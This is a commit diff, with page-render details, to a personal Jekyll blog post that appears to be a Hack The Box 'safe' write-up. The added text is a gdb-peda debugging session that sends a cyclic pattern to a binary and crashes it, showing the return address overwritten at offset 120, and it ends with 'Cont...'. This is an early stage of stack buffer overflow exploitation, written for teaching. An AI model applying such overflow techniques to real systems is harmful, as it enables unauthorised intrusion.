

Before and after one commit to db-d2/db-d2.github.io, a Jekyll site: the page built from _posts/2019-08-30-safe.md, in a window 1280 px wide and 1400 px high, scrolled down 5287 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown; grey boxes are pictures that could not be loaded.

Commit message:
Update 2019-08-30-safe.md

```diff
--- a/_posts/2019-08-30-safe.md
+++ b/_posts/2019-08-30-safe.md
@@ -176,3 +176,62 @@ jAA9AAOA found at offset: 120
 {% endhighlight %}
 
 Now i'll create a new pattern with a size of 120 and throw in 8 junk chars at the end
+
+{% highlight Ada linenos %}
+gdb-peda$ pattern create 120
+'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAK
+AAgAA6AALAAhAA7AAMAAiAA8AANAA'
+
+gdb-peda$ r
+Starting program: /home/db-d2/hack_the_box/myapp
+[Detaching after vfork from child process 775918]
+ 22:25:55 up 10 days,  1:40,  2 users,  load average: 0.00, 0.00, 0.00
+
+What do you want me to echo back? AAA%AAsAABAA$AAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAhelothere
+AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1KAAgAA6AALAAhAA7AAMAAiAA8AANAAhelothere
+
+Program received signal SIGSEGV, Segmentation fault.
+[----------------------------------registers-----------------------------------]
+RAX: 0x0
+RBX: 0x0
+RCX: 0x7ffff7ecfff3 (<__GI___libc_write+19>:	cmp    rax,0xfffffffffffff000)
+RDX: 0x0
+RSI: 0x4052a0 ("AAA%AAsAABAA$AAnAACAAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAhelothere\n")
+RDI: 0x7ffff7fa2670 --> 0x0
+RBP: 0x41414e4141384141 ('AA8AANAA')
+RSP: 0x7fffffffe448 ("helothere")
+RIP: 0x4011ac (<main+77>:	ret)
+R8 : 0x82
+R9 : 0x0
+R10: 0xfffffffffffff41f
+R11: 0x246
+R12: 0x401070 (<_start>:	xor    ebp,ebp)
+R13: 0x0
+R14: 0x0
+R15: 0x0
+EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
+[-------------------------------------code-------------------------------------]
+   0x4011a1 <main+66>:	call   0x401030 <puts@plt>
+   0x4011a6 <main+71>:	mov    eax,0x0
+   0x4011ab <main+76>:	leave
+=> 0x4011ac <main+77>:	ret
+   0x4011ad:	nop    DWORD PTR [rax]
+   0x4011b0 <__libc_csu_init>:	push   r15
+   0x4011b2 <__libc_csu_init+2>:	mov    r15,rdx
+   0x4011b5 <__libc_csu_init+5>:	push   r14
+[------------------------------------stack-------------------------------------]
+0000| 0x7fffffffe448 ("helothere")
+0008| 0x7fffffffe450 --> 0x7fffffff0065 --> 0x0
+0016| 0x7fffffffe458 --> 0x100000000
+0024| 0x7fffffffe460 --> 0x40115f (<main>:	push   rbp)
+0032| 0x7fffffffe468 --> 0x7ffff7e077d9 (<init_cacheinfo+297>:	mov    rbp,rax)
+0040| 0x7fffffffe470 --> 0x0
+0048| 0x7fffffffe478 --> 0x35136ec0411f0d74
+0056| 0x7fffffffe480 --> 0x401070 (<_start>:	xor    ebp,ebp)
+[------------------------------------------------------------------------------]
+Legend: code, data, rodata, value
+Stopped reason: SIGSEGV
+0x00000000004011ac in main ()
+{% endhighlight %}
+
+Cont...
```
